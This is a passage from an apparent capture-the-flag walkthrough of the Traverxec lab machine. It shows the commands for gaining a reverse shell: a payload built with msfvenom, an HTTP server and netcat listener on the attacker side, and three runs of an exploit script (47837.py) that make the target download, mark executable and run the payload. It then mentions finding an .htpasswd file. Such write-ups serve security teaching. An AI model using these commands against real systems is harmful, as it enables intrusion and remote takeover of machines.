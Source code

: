 Nice! Use it to get a reverse shell:

```bash
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
sudo python3 -m http.server 80
nc -nvlp 6969
python2.7 47837.py 10.10.10.165 80 "wget -O /dev/shm/bubba.elf 10.10.14.25/bubba.elf"
python2.7 47837.py 10.10.10.165 80 "chmod +x /dev/shm/bubba.elf"
python2.7 47837.py 10.10.10.165 80 "/dev/shm/bubba.elf"
```

This provides a shell but not `user.txt`:

![user2](./traverxec/user2.png)

Looking around the system shows an interesting file `/var/nostromo/conf/.htpasswd`:

![user3](./traverxec/user3.png)
